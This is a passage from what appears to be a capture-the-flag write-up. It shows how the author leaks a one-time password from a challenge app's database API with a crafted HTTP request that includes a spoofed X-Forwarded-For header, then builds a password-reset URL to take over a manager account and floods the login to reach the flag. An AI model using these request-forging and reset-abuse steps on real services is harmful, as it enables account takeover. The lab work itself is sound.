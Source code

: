 To find the OTP, we just have to query the API at `http://olivia.memetrolls.net:2507/api/ea_xeondb/entries/` with a request to insert random bullshit:
```http
POST http://olivia.memetrolls.net:2507/api/ea_xeondb/entries/ HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cache-Control: no-cache
Content-Type: application/json
Host: olivia.memetrolls.net:2507
Origin: http://olivia.memetrolls.net:2507
Pragma: no-cache
Proxy-Connection: keep-alive
Referer: http://olivia.memetrolls.net:2507/hacker/admin/Enterprise_Applications/xeon
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36 Edg/121.0.0.0
X-XDB-Token: gbxxtr1dpagj8egb2ial8r5hz34ksl4fe60o50htvuvbn3e8dqr3kx0041po65qqz237qudl2ds7j6m0ahw0kwil56yww1mn2e5x2qzi4q
X-Forwarded-For: 10.0.0.1

{"id": "0", "method": "INSERT", "status": "asdf"}
```

Response:
```json
{"id":0,"otp":"ccccccrrktriubgvcuvubhdtibdughigtrkuirdvfrrc","user":"qiulin.feng@arg.iam","timestamp":0,"sn":0,"status":"asdf"}
```

The route to INSERT data can be found by sniffing an `Edit` request on the frontend in DevTools.

# Finding the flag

We have all the infinity stones required to reset the manager password!\
First thing we have to do is switch roles back to **Insider**.

Using what we had earlier, we can finally form the final URL:
```
http://olivia.memetrolls.net:2507/insider/iamcredhelper/reset?u=qiulin.feng@arg.iam&y=ccccccrrktriubgvcuvubhdtibdughigtrkuirdvfrrc&m=55555
```

With our 501 (Not Implemented) response code and password in hand, we can access the Flag page we found at the start:
```
Password of qiulin.feng@arg.iam reset to b65eb4251676822b70c62629795645f606030e964e9cd32be847583cdcd20bb0
```

Heading to BANDERA, we put in the email and password, and spam `Login` a few thousand times. It will let us in eventually, and we get the option to `Export flag to XeonDB`.

We can save some time here and get the flag from the web request sent to the server by looking at DevTools once more. We have the flag!
